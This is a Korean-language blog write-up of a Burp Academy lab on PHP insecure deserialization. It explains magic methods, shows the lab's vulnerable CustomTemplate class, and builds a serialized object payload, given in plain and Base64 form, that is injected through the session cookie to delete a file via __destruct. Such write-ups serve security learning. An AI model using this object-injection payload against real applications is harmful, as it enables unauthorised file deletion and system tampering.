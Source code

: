 ```yaml
---
layout: post
title: "Burp Academy-안전하지 않은 역직렬화(Insecure Deserialization) 관련 취약점: Arbitrary object injection in PHP"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Insecure Deserialization]
toc: true
last_modified_at: 2024-11-22 21:00:00 +0900
---
```



# 개요
- 안전하지 않은 역직렬화(Insecure Deserialization) 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php
- 취약점 설명페이지: https://portswigger.net/web-security/deserialization/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요
## 매직 메서드(Magic Method)
역직렬화 과정에서 자동으로 호출되는 메서드도 있다. 이 것을 `Magic method`라고 부른다. 매직 메서드는 객체지향 프로그래밍 언어에서는 흔한 기능이다. 예를들면 생성자가 매직 메서드의 하나이다. PHP에서 `__construct()` 함수는 오브젝트가 초기화될 때 자동으로 호출된다. 파이썬의 `__init()__`도 비슷한다. 매직메서드는 널리 사용되고 있고 그 자체로는 취약점이라고 볼 수 없다. 그러나 공격자로부터의 코드를 직접 실행시킬 수 있는 경우 취약점이 된다. (예를들어 역직렬화 오브젝트로부터) 
이 문맥에서 가장 중요한 것은, 어떤 언어는 **역직렬화 과정에서 자동으로 호출되는 메서드를 가지고 있다**는 점이다. 예를 들어 PHP의 `unserialize()`함수는 오브젝트의 `__wakeup()`함수를 찾고 실행시킨다. 

자바에서는 `ObjectInputStream.readObject()`가 그 역할을 한다. 바이트스트림으로부터 데이터를 읽어서 직렬화된 오브젝트를 재구성하는 생성자(constructor)같은 역할을 한다. 그리고 `Serializable`인터페이스를 구현한 클래스는 자신의 `readObject`를 선언 및 구현할 수 있다. 

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}
```

이렇게 선언된 readObject메서드는 역직렬화 중에 호출되는 매직 메서드 역할을 한다. 이를 통해 클래스는 자체 필드의 역직렬화를 더 세밀히 제어할 수 있다. 이러한 유형의 매직 메서드가 포함된 클래스에는 세심한 주의를 기울여야 한다. 이 메커니즘은 객체가 완전히 역직렬화되기 전에 직렬화된 개체의 데이터를 웹 사이트의 코드로 전달할 수 있게 한다. 이는 더 나아간 exploit을 개발하는 시작시점이 된다. 

## 임의의 오브젝트를 삽입하기(Injecting arbitrary objects)
- 지금까지는 웹 사이트에서 제공하는 객체를 간단히 편집하여 안전하지 않은 역직렬화를 악용하는 것을 공부했다. 
- 그러나 임의의 객체 유형을 주입하면 더 많은 가능성이 열릴 수 있다. 
- 객체 지향 프로그래밍에서 객체에 사용할 수 있는 메서드는 클래스에 따라 결정된다.
- 따라서 공격자가 직렬화된 데이터로 전달되는 개체 클래스를 조작할 수 있는 경우 역직렬화 이후는 물론 역직렬화 중에도 실행되는 코드에 영향을 미칠 수 있다. 
- 역직렬화 메서드는 종종 역직렬화 내용을 체크하지 않는다. 이는 웹 사이트에서 사용할 수 있는 직렬화 가능 클래스의 개체를 전달할 수 있으며 개체가 역직렬화된다는 의미다.  
- 이는 공격자가 웹 사이트에 임의의 클래스를 생성할 수 있다는 말이 된다. 
- 공격자가 소스 코드에 액세스할 수 있으면 사용 가능한 모든 클래스를 자세히 연구할 수 있다. (오픈소스)
- 공격자는 익스플로잇을 구성하기 위해 역직렬화 매직 메서드가 포함된 클래스를 찾은 다음, 제어 가능한 데이터에 대해 위험한 작업을 수행하는 클래스가 있는지 확인한다. 
- 이러한 역직렬화 매직 메서드가 포함된 클래스는 "Gadget chain"이라고 알려진 긴 일련의 메서드 호출과 관련된 보다 복잡한 공격을 시작하는 데에도 사용할 수 있다. 

# 문제 개요
- 이 랩은 직렬화 베이스의 세션 관리 메커니즘을 사용하고 있고, 임의의 오브젝트 인젝션이 가능하다. 
- 랩을 풀려면 악의적인 직렬화 오브젝트를 만들어서, Carlos유저의 홈 디렉토리에서 Morale.txt파일을 삭제한다. 
- 웹 사이트의 소스코드에 접근할 수 있다. 
- wiener:peter 크레덴셜로 로그인할 수 있다. 
- 힌트: 파일명뒤에 ~를 붙이면 에디터가 생성한 백업파일에 접근할 수 있다. 이를 통해 소스 코드를 확인할 수 있다. 

```
This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter

Hint
You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.
```

# 도전
이 랩에서는 임의의 오브젝트 인젝션 테크닉을 배울 수 있다. 

1. 일단 소스코드를 확인하는 방법을 확인할 필요가 있다. 랩을 살펴본다. 

my-account?id=wiener 엔드포인트의 웹 페이지를 보면 다음과 같은 주석이 포함되어 있는 것을 볼 수 있다. 힌트로 추정된다. 

```html
<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->
```


2. `/libs/CustomTemplate.php`로 접근하면 200응답이 돌아온다. 내용은 없다. 

![](/images/burp-academy-serial-4-1.png)

`/libs/CustomTemplate.php~` 로 접근하자 다음과 같이 소스코드를 확인할 수 있었다! 

![](/images/burp-academy-serial-4-2.png)

3. 소스코드를 살펴본다. 
- CustomTemplate라는 이름의 클래스가 선언되어 있다. 
- 클래스가 삭제될 때 (__destruct가 호출될 때), 이 클래스의 멤버변수로 선언되어 있는 lock_file_path이 가리키는 곳에 파일이 존재하면 unlink함수가 호출되어 파일이 삭제되게 되어 있다. (매직메서드다)
- 따라서, 삭제하고자하는 경로 `/home/carlos/morale.txt`를 lock_file_path로 지정한 CustomTemplate클래스의 오브젝트를 생성해서 삽입하면 될 것 같다. 

```php
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

```

4. PHP에서 오브젝트는 텍스트를 편집해서 만들 수 있다. 다음과 같다. 
- `CustomTemplate` 이라는 이름의 오브젝트, 1개의 속성을 지정한다. 
- 속성이름은 14글자의 `lock_file_path`고, 값은 23글자의 `/home/carlos/morale.txt`이다.

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

이 것을 Base64 인코딩하면 `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==`가 된다. 

5. 이 페이로드를 session 쿠키에 설정한다. 그렇다. 세션쿠기가 오브젝트를 인젝션할 수 있는 입구인 것인다. 요청을 보내보면 500응답이 돌아온다. 

![](/images/burp-academy-serial-4-3.png)

6. 하지만 파일삭제에 성공해 문제가 풀렸다는 메세지가 출력된다. 

![](/images/burp-academy-serial-4-success.png)
